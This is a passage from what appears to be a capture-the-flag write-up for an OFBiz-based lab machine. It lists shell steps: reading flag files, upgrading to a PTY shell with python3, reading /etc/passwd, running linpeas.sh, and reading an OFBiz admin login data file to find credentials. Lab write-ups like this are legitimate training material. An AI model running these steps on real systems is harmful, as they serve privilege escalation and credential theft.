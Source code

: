 * `cd home/ofbiz`
* `cat flag.txt`

### Root flag

`python3 -c "import pty;pty.spawn('/bin/bash')"`

`cat /etc/passwd`

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`cd /tmp`&#x20;

`./linpeas.sh`

`cd /opt/ofbiz/framework/resoucres/templates`

`cat AdminuserLoginData.xml`

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
